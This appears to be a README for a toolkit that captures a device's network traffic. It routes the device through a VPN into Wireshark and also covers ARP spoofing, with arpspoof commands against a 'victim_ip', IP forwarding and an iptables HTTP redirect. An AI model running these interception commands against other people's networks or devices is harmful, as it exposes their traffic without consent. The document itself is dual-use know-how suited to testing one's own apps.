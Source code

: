 # Install

Make sure you have docker and wireshark installed.

#### Windows:
Download and install docker and wireshark from their websites.

#### Ubuntu:
```
apt-get install docker wireshark
```

#### Mac:
```
brew install docker wireshark
```

# Usage

Initialize the server for the first time.
```
./init.sh server_ip
```

Start the server.
```
./start.sh
```

Create a client.
```
./create_client.sh client_name
```

Transfer the client's configuration file to the target device.

Connect to the VPN server from the target device (search for OpenVPN on the Appstore).

Open wireshark and start sniffing.
```
./wireshark.sh
```

## Creating a VPN tunnel over USB (USB reverse tethering)
This enables you to pipe internet connection through USB to the mobile phone, even without wifi.

Good for when using a firewalled network, or through mobile tethering on iOS (which blocks all connections to devices inside the network).

Requires root (or at least ssh to the phone).

We will need to start the server in the exact same way, but with using TCP (since ssh can only create a TCP tunnel).

Go to the USB folder, and follow the same steps seen in Usage.


# Sniffing without VPN
It's possible to sniff the data after poisoning the arp table of the target device, although a few extra steps are required to allow the traffic to pass through.

#### Windows
Install Linux or get a Mac and continue.

#### Ubuntu
From: https://github.com/moxie0/sslstrip

Install arpspoof
```
apt-get install arpspoof
```

Flip your machine into forwarding mode (as root):
```
echo "1" > /proc/sys/net/ipv4/ip_forward
```

Setup iptables to intercept HTTP requests (as root):
```
iptables -t nat -A PREROUTING -p tcp --destination-port 80 -j REDIRECT --to-port <yourListenPort>
```

#### Mac
From http://iosmanbh.blogspot.com/2014/09/mac-os-x-arp-spoofing.html

Install macport

Install dsniff
```
sudo port selfupdate
sudo port install dsniff-devel
```

Find victim ip
```
arp -a
```

Open net forwarding,it will forward packets which recive to Internet Connection.
```
sudo sysctl -w net.inet.ip.forwarding=1
sudo sysctl -w net.inet.ip.fw.enable=1
```

Arpspoof Router
```
sudo arpspoof -i Yourineterface -t victim_ip router_ip
sudo arpspoof -i Yourineterface -t router_ip victim_ip
```

Example:
```
sudo arpspoof -i en0 -t 192.168.1.100 192.168.1.1
sudo arpspoof -i en0 -t 192.168.1.1 192.168.1.100
```

# Another way (requires root access to the device, but more stable)
Instead of arp spoofing, just login to the device and edit its arp tables.

To make sure the connection will still be up, we need to enable IP forwarding (through our sniffing computer) first.

#### Windows
Stop... just stop...

#### Mac
```
sudo sysctl -w net.inet.ip.forwarding=1
```

#### Linux
```
echo "1" > /proc/sys/net/ipv4/ip_forward
```

Now log into the device and edit its arp tables using the following command:
```
arp -s [target] [my_computer_mac_address]
```

# Decrypt ssl communication
See [iOS SSL Sniffer](https://github.com/gkpln3/ios_ssl_sniffer)
